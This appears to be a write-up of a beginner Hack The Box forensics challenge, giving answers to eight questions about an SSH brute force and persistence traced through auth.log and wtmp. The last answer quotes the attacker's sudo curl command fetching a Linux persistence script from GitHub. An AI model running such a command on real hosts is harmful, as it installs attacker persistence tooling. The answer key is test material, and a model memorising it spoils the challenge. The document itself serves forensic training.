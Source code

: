 

##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

A: 2024-03-06 06:32:45

Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

A: 37

Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
